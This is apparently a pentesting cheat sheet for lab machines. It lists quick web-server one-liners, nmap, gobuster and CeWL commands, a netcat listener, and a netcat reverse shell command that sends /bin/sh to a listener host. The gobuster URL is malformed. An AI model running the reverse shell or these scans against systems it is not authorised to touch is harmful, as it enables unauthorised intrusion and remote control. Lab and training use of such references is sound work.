 # CheatSheet

## Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```
### Ruby
```ruby
ruby -run -e httpd . -p 8000
```
## nmap
```shell-script
nmap -sC -sV -oA nmap/openadmin 10.10.10.171
```
## gobuster
```bash
gobuster dir -u http:10.10.10.10/ -w /path/to/wordlist
```
##  CeWL
```bash
cewl -d 2 -m 5 -w genwords.txt https://10.10.10.10
```
## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### Set Reverse Shell on Target
```bash
nc -e /bin/sh IP.OF.LISTENER 4000
```
## Usefuls Scripts
### HEX Converter
```bash
#!/bin/bash
echo $1 | tr -d “\n” | hexdump -e ‘16/1 “%02x “ “\n”
```

